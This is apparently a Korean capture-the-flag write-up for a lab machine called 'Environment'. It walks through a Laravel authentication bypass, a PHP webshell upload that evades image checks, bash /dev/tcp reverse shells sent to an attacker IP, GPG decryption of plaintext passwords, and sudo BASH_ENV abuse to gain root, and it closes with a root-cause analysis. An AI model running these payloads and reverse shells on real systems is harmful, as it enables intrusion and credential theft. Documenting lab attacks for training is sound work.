```markdown
# Environment

## Overview

Laravel 기반 마케팅 관리 웹 서비스에서 동작하는 Linux 머신이다. 공격 체인은 다음과 같다. CVE-2024-52301을 통해 Laravel의 환경 변수 조작으로 인증을 우회하여 관리 대시보드에 진입하고, CVE-2024-2154를 이용해 GIF 매직 바이트와 파일명 끝점을 활용한 PHP 웹쉘 업로드로 `www-data` 권한의 리버스 쉘을 획득한다. 이후 노출된 GPG 개인키로 암호화된 백업 파일을 복호화하여 `hish`의 SSH 크리덴셜을 탈취하고, 최종적으로 `sudo`의 `BASH_ENV` 환경변수 보존 설정을 악용하여 root 권한까지 상승한다.

---

## Target Information

| 항목 | 내용 |
|------|------|
| 머신 이름 | Environment |
| OS | Debian Linux |
| IP | 10.129.x.x |
| 난이도 | Medium |
| 주요 취약점 | CVE-2024-52301 (Laravel 환경 조작), CVE-2024-2154 (파일 업로드 우회), GPG 키 노출, BASH_ENV 권한 상승 |
| 주요 기술 | Laravel 환경 우회, PHP 웹쉘, 매직 바이트 우회, GPG 복호화, sudo 환경변수 악용 |

---

## Enumeration

### TCP Port Scan

```bash
nmap -sC -sV 10.129.x.x
```


열린 포트는 두 개다.

| 포트 | 서비스 | 버전 |
|------|--------|------|
| 22/tcp | SSH | OpenSSH 9.2p1 Debian 2+deb12u5 |
| 80/tcp | HTTP | nginx 1.22.1 |

HTTP 서버는 `http://environment.htb`로 리다이렉트한다. 로컬 DNS 설정이 필요하다.

```bash
echo "10.129.x.x environment.htb" | sudo tee -a /etc/hosts
```

### Web Enumeration

`http://environment.htb`에 접속하면 환경 보호를 주제로 한 홈페이지가 표시된다. 메일링 리스트 가입 폼만 존재하며 로그인 페이지는 노출되어 있지 않다. 응답 쿠키에서 `XSRF-TOKEN`과 `laravel_session`이 확인되어 Laravel 프레임워크가 사용됨을 파악할 수 있다.


```bash
gobuster dir -u http://environment.htb \
  -w /usr/share/wordlists/dirb/common.txt \
  -x php,html
```


| 경로 | 상태 코드 | 비고 |
|------|-----------|------|
| /login | 200 | 로그인 페이지 |
| /logout | 302 | 세션 없으면 /login으로 리다이렉트 |
| /storage | 301 | 파일 저장소 |
| /vendor | 301 | Laravel 라이브러리 디렉토리 |
| /up | 200 | Laravel health check |

`/login`에 접속하면 이메일과 패스워드를 입력받는 Marketing Management Portal 로그인 폼이 표시된다.


---

## Initial Foothold

### CVE-2024-52301 — Laravel 환경 조작을 통한 인증 우회

Laravel은 URL 쿼리스트링의 `--env` 파라미터를 Artisan CLI 옵션으로 해석하여 로드할 환경 설정 파일을 변경할 수 있다. `?--env=preprod`를 URL에 추가하면 Laravel이 `.env.preprod` 파일을 로드하고, 해당 파일의 설정에서 인증 로직이 우회된다. 이 취약점은 크리덴셜을 맞추는 것이 아니라 환경 자체를 전환하여 인증 절차를 건너뛰는 방식이다.

`--env` 파라미터는 POST body가 아닌 URL 쿼리스트링에 포함해야 하며, CSRF 토큰은 반드시 동일한 `?--env=preprod` 환경으로 GET 요청하여 발급받은 토큰을 사용해야 한다.

```bash
TOKEN=$(curl -s -c /tmp/env.txt "http://environment.htb/login?--env=preprod" \
  | grep -o 'value="[^"]*" autocomplete' | head -1 | cut -d'"' -f2)

curl -s -X POST "http://environment.htb/login?--env=preprod" \
  -b /tmp/env.txt -c /tmp/env.txt \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "_token=$TOKEN&email=admin%40environment.htb&password=admin&remember=True" \
  -D - -o /dev/null | grep "Location"
```


`Location: http://environment.htb/management/dashboard`로 리다이렉트되어 인증 우회가 성공했음을 확인한다.

브라우저에서는 Burp Suite를 활용하여 로그인 POST 요청을 인터셉트한 뒤 첫 줄을 `POST /login?--env=preprod HTTP/1.1`로 수정하고 Forward한다.


대시보드에 진입하면 메일링 리스트와 Profile 메뉴가 표시된다. 로그인된 계정 정보는 `hish@environment.htb`다.

### CVE-2024-2154 — PHP 웹쉘 업로드

Profile 페이지에서 프로필 이미지를 업로드하는 기능이 있다. 서버는 업로드된 파일의 Content-Type 헤더와 파일 내용 앞부분의 매직 바이트를 검사하여 이미지 파일 여부를 판별한다.


파일 검증을 우회하기 위해 두 가지 기법을 조합한다. 첫 번째로 GIF 매직 바이트(`GIF89a`)를 PHP 코드 앞에 삽입하여 서버의 파일 내용 검사를 통과시킨다. 두 번째로 파일명 끝에 점을 추가(`shell.php.`)하여 확장자 필터를 우회한다. Linux 파일시스템은 파일명 끝의 점을 자동으로 제거하므로 서버에는 `shell.php`로 저장된다.

```bash
printf 'GIF89a<?php system($_GET["cmd"]); ?>' > /tmp/shell.php
```

정상 이미지 업로드 요청을 Burp Suite로 인터셉트하여 Repeater로 전송한 뒤 파일 내용과 파일명, Content-Type을 수정한다.


```
Content-Disposition: form-data; name="upload"; filename="shell.php."
Content-Type: image/png

GIF89a<?php system($_GET["cmd"]); ?>
```



업로드 성공 응답에서 웹쉘 경로를 확인한다.

```
{"url":"http://environment.htb/storage/files/shell.php"}
```

RCE를 검증한다.

```bash
curl "http://environment.htb/storage/files/shell.php?cmd=id"
```



`GIF89auid=33(www-data)` 응답으로 코드 실행이 확인됐다. `GIF89a`가 출력 앞에 붙어 나오는 것은 매직 바이트가 PHP 코드와 함께 그대로 출력된 것이다.

### 리버스 쉘 획득

netcat 리스너를 열고 리버스 쉘을 트리거한다.

```bash
nc -lvnp 4444
```

```bash
curl "http://environment.htb/storage/files/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.15.55/4444+0>%261'"
```





쉘을 안정화한다.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

---

## Lateral Movement — www-data → hish

### GPG 키 탐색

로그인 가능한 유저를 확인한다.

```bash
cat /etc/passwd | grep -v nologin | grep -v false
```



`root`와 `hish` 두 유저가 확인된다. GPG로 암호화된 백업 파일과 개인키를 탐색한다.

```bash
find / -name "*.gpg" -o -name "*.asc" -o -name "backup*" 2>/dev/null | grep -v proc | grep -v sys
```



`/home/hish/backup/keyvault.gpg`와 `/home/hish/.gnupg/` 디렉토리가 발견됐다.

```bash
ls -la /home/hish/.gnupg/
find /home/hish/.gnupg/ -type f
```




`/home/hish/.gnupg/private-keys-v1.d/` 아래에 두 개의 개인키 파일이 존재하며, 권한이 `-rwxr-xr-x`로 설정되어 `www-data`도 읽을 수 있다.

### GPG 복호화

`www-data`는 `/home/hish/.gnupg/`에 쓰기 권한이 없어 GPG 에이전트가 임시 파일을 생성하지 못한다. `/tmp`에 새 GPG 홈 디렉토리를 만들고 hish의 키링을 복사하여 복호화한다.

```bash
mkdir -p /tmp/gpgtmp
chmod 700 /tmp/gpgtmp
cp -r /home/hish/.gnupg/* /tmp/gpgtmp/
gpg --homedir /tmp/gpgtmp --decrypt /home/hish/backup/keyvault.gpg
```



복호화된 내용에서 크리덴셜 세 개가 노출됐다.

| 사이트 | 비밀번호 |
|--------|----------|
| PAYPAL.COM | Ihaves0meMon$yhere123 |
| ENVIRONMENT.HTB | marineSPm@ster!! |
| FACEBOOK.COM | summerSunnyB3ACH!! |

`ENVIRONMENT.HTB` 크리덴셜로 SSH 접속을 시도한다.

```bash
ssh hish@10.129.x.x
# password: marineSPm@ster!!
```



```bash
cat ~/user.txt
```



---

## Privilege Escalation — hish → root

### sudo 권한 확인

```bash
sudo -l
```



두 가지 핵심 정보가 확인된다.

첫 번째로 `env_keep+="ENV BASH_ENV"` 설정이 있다. 이는 sudo 실행 시 `BASH_ENV` 환경변수가 root 환경으로 그대로 전달된다는 뜻이다. `BASH_ENV`는 bash가 시작될 때 자동으로 실행할 스크립트 경로를 지정하는 변수다.

두 번째로 hish는 `(ALL) /usr/bin/systeminfo`를 root 권한으로 실행할 수 있다. `systeminfo`가 내부적으로 bash를 호출하는 시점에 `BASH_ENV`에 지정된 스크립트가 root 권한으로 자동 실행된다.

### BASH_ENV를 통한 root 쉘 획득

리버스 쉘 스크립트를 작성하고 실행 권한을 부여한다.

```bash
echo 'bash -i >& /dev/tcp/10.10.15.55/9999 0>&1' > /tmp/pwn.sh
chmod +x /tmp/pwn.sh
```

공격 머신에서 리스너를 열고 `BASH_ENV`에 스크립트 경로를 지정하여 sudo로 실행한다.

```bash
# 공격 머신
nc -lvnp 9999

# 타겟 머신
sudo BASH_ENV=/tmp/pwn.sh /usr/bin/systeminfo
```



root 쉘이 연결됐다.

```bash
cat /root/root.txt
```


---

## Vulnerability Root Cause Analysis

| 취약점 | 위치 | 근본 원인 | OWASP |
|--------|------|-----------|-------|
| CVE-2024-52301 | Laravel 로그인 엔드포인트 | URL 파라미터로 서버 환경을 외부에서 변경 가능, preprod 환경에서 인증 로직 비활성화 | A05 Security Misconfiguration |
| CVE-2024-2154 | 프로필 이미지 업로드 | 매직 바이트 검사만으로 파일 유형을 신뢰하고 PHP 실행 경로에 저장 | A03 Injection |
| GPG 개인키 노출 | `/home/hish/.gnupg/` | 개인키 파일 권한이 `r-xr-xr-x`로 다른 유저도 읽기 가능 | A01 Broken Access Control |
| BASH_ENV 보존 | sudo 설정 | `env_keep`으로 BASH_ENV가 root 환경에 전달되어 임의 스크립트 실행 가능 | A05 Security Misconfiguration |

### 실제 환경에서의 위험성

CVE-2024-52301은 개발 편의를 위해 만들어진 preprod 환경 설정이 운영 서버에 그대로 남아 있어 발생한다. `.env.preprod` 파일이 서버에 존재하는 한, URL 파라미터 하나만으로 인증 전체를 무력화할 수 있다. 운영 환경에는 개발용 환경 파일이 절대 존재해서는 안 된다.

BASH_ENV 취약점은 sudo의 `env_reset` 옵션이 기본적으로 환경변수를 초기화하지만 `env_keep`으로 특정 변수를 명시적으로 유지할 경우 발생한다. 특히 `BASH_ENV`처럼 코드 실행에 직접 관여하는 변수를 보존하면 실질적으로 임의 명령 실행 권한을 부여하는 것과 같다. sudo 설정에서 `env_keep`에 추가하는 변수는 보안 영향을 면밀히 검토해야 한다.

---

## Attack Chain Summary

| 단계 | 기술 | 도구 |
|------|------|------|
| 포트 스캔 | TCP 열거 | nmap |
| 디렉토리 열거 | 웹 콘텐츠 탐색 | gobuster |
| 인증 우회 | CVE-2024-52301 Laravel 환경 조작 | curl, Burp Suite |
| 웹쉘 업로드 | CVE-2024-2154 매직 바이트 + 파일명 끝점 우회 | Burp Suite |
| RCE 획득 | PHP 웹쉘을 통한 명령 실행 | curl |
| 리버스 쉘 | bash TCP 리다이렉트 | curl, nc |
| 쉘 안정화 | PTY 업그레이드 | python3, stty |
| GPG 복호화 | 노출된 개인키로 암호화된 백업 복호화 | gpg |
| 수평 이동 | 복호화된 크리덴셜로 SSH 접속 | ssh |
| 권한 상승 | BASH_ENV + sudo systeminfo | nc, bash |
| 플래그 획득 | root 쉘에서 파일 읽기 | cat |
```
